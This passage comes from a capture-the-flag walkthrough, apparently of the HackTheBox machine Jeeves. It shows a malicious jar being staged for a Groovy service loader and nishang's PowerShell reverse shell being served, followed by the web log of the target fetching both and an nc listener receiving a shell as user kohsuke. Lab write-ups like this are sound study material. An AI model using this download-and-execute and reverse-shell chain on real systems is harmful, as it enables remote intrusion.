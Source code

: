 
Bundle it into a jar:

    
    
    root@kali# jar cvf 0xdf-223.jar Orange.class META-INF
    added manifest
    adding: Orange.class(in = 579) (out= 416)(deflated 28%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/org.codehaus.groovy.plugins.Runners(in = 7) (out= 9)(deflated -28%)
    

### Stage Payloads

Next I’ll move the jar into the path expected by the GET request:

    
    
    root@kali# mkdir -p tw/orange/0xdf/223/
    root@kali# mv 0xdf-223.jar tw/orange/0xdf/223/
    

I’ll also get a copy of `Invoke-PowerShellTcp.ps1` and named it `shell.ps1` to
match what’s in the jar:

    
    
    root@kali# cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
    

Then I’ll grab the example line and paste it at the end of the file, with my
IP/port information:

    
    
    root@kali# tail -1 shell.ps1 
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 443
    

Now the PowerShell will request this file, and execute it loading all of the
functions into the PowerShell session, and then Invoking the one that creates
a shell connection back to me.

### Exploit

I’ll open a `nc` listener on port 443. Now I just need to visit the url again.
On refresh, I first see activity in the web server, the request for the jar
file followed 6 seconds later by the request for `shell.ps1`:

    
    
    10.10.10.63 - - [27/Feb/2019 12:15:36] "HEAD /tw/orange/0xdf/223/0xdf-223.pom HTTP/1.1" 404 -
    10.10.10.63 - - [27/Feb/2019 12:15:36] "HEAD /tw/orange/0xdf/223/0xdf-223.jar HTTP/1.1" 200 -
    10.10.10.63 - - [27/Feb/2019 12:15:37] "GET /tw/orange/0xdf/223/0xdf-223.jar HTTP/1.1" 200 -
    10.10.10.63 - - [27/Feb/2019 12:15:43] "GET /shell.ps1 HTTP/1.1" 200 -
    

Shortly after that, I get a connection on `nc`, and I have a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.63.
    Ncat: Connection from 10.10.10.63:49680.
    Windows PowerShell running as user kohsuke on JEEVES
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    